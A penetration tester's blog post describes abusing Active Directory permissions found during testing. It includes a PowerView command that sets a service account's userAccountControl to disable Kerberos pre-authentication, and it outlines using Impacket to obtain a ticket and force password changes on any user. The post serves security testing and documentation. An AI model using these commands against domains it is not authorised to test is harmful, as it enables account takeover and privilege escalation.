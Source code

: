 [Home](https://plackyhacker.github.io)

# Changing the userAccountControl Attribute in AD

Recently I was conducting some technical testing, specifically permissions and privileges that users have in AD. During the tests I found that a group containing low privileged users had the `GenericAll` permission over a service account that had the `ForceChangePassword` permission over ALL user accounts in the domain.

I used Bloodhound to analyse these:

<img width="732" alt="Screenshot 2023-02-18 at 17 21 51" src="https://user-images.githubusercontent.com/42491100/219879488-f09b9da4-a189-475a-92e0-f16dd4ec51e3.png">

The image is for illustrative purposes only, there is more than 3 user accounts in the domain!

I couldn't change the service account password as it would break the underlying service. So I decided to briefly change the `userAccountControl` attribute on the object so I could get a Kerberos Ticket Granting Ticket for the account and abuse it that way instead. I used `PowerView` to do this:

```powershell
. .\PowerView.ps1
$username = "low.priv.account@domain.local";
$password = ConvertTo-SecureString "PASSWORD_HERE" -AsPlainText -Force;
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, $password;

Set-DomainObject -Identity 'target.account' -Set @{'userAccountControl'=0x410200} -Credential $cred -Domain "domain.local" -Server '172.16.1.5'; 
```

The setting I made breaks down as follows:

```
NORMAL_ACCOUNT       0x0200
DONT_EXPIRE_PASSWORD 0x10000
DONT_REQ_PREAUTH     0x400000
```

More settings can be refered to at:

https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

The initial attribute value was `0x10200`.

I could then grab a TGT (using Impacket GetNPUsers), force a password change on any user, and change the attribute back.

[Home](https://plackyhacker.github.io)
